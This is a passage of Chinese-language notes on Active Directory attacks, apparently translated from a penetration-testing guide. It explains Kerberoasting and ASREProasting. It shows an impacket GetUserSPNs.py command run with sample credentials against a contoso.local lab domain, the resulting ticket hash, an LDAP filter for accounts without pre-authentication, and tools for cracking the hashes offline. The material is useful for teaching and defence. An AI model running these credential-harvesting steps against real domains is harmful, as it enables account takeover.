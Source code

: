 ```bash
###Kerberoast with GetUserSPNs.py
root@debian10:~# GetUserSPNs.py 'contoso.local/Anakin:Vader1234!' -dc-ip 192.168.100.2 -outputfile kerberoast-hashes.txt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name  MemberOf                                       PasswordLastSet             LastLogon                   Delegation 
--------------------  ----  ---------------------------------------------  --------------------------  --------------------------  ----------
HTTP/ws01-10          leia  CN=Domain Admins,CN=Users,DC=contoso,DC=local  2021-01-01 16:38:02.183703  2021-01-15 11:46:13.998905             


root@debian10:~# cat kerberoast-hashes.txt 
$krb5tgs$23$*leia$CONTOSO.LOCAL$HTTP/ws01-10*$65ca3e856acd6d9438c05cb6c283dcb5$ab86cafcf1dee23d2466973679fc315e9fef3fa2ddcae82d844b31e1651ed.................
```

有了STs就能用 [hashcat](https://hashcat.net/hashcat/)破解 ， 请求RC4最好破解，但可以被检测为不正常流量（如 [Microsoft ATA](https://docs.microsoft.com/en-gb/advanced-threat-analytics/what-is-ata)），因为大部分请求都是AES256的

也可以 [Kerberoasting without knowing the services SPNs ](https://swarm.ptsecurity.com/kerberoasting-without-spns/)，记住可以为不同主体请求Kerberos票据，包括用户和服务的

用户得注册有服务才能请求它的票据

作为目标主体名称为用户获取的ST也使用用户密钥进行加密，也就能Kerberoasting，如果不能通过LDAP枚举用户的话这就很有用，因为没有SPN的用户的主体名称无法解析

这种方法被 [impacket GetUserSPNs.py ](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)所使用，[Rubeus kerberoast](https://github.com/GhostPack/Rubeus#kerberoast) 命令加/enterprise flag，以及[cerbero kerberoast](https://gitlab.com/Zer1t0/cerbero/#kerberoast) 命令也用

如果对某个用户账户有[Validated-SPN ](https://docs.microsoft.com/en-gb/windows/win32/adschema/r-validated-spn)权限，你可以给账户加SPNs 来让它能被Kerberoasting，可以为该帐户服务请求ST并尝试破解它。默认情况下，帐户本身没有经过验证的SPN权限。

### **ASREProast**

大多数用户都要Kerberos预认证，即在AS-REQ 信息中发送用它的Kerberos密钥加密的时间戳到KDC（来请求TGT）

但有很小的几率预认证被关闭（设置 [DONT_REQUIRE_PREAUTH flag](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)），谁都可以发送AS-REQ消息来伪装这些帐户，并且KDC将返回 [AS-REP response](https://tools.ietf.org/html/rfc4120#section-5.4.2) ，数据用用户Kerberos密钥加密

AS-REP数据不能直接拿，因为被用户密钥加密了，但离线破解能得到用户密码

**ASREProast 攻击包括识别不需要Kerberos预认证的用户，并以他们的名义发送AS-REQ来检索使用AS-REP消息中的用户密钥加密的数据段，然后离线破解得到用户密码**

```
###（LDAP filter for users without Kerberos pre-authentication）(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

工具： [impacket GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) script, the [Rubeus asreproast](https://github.com/GhostPack/Rubeus#asreproast) command or the [ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast) script 来拿AS-REP加密数据
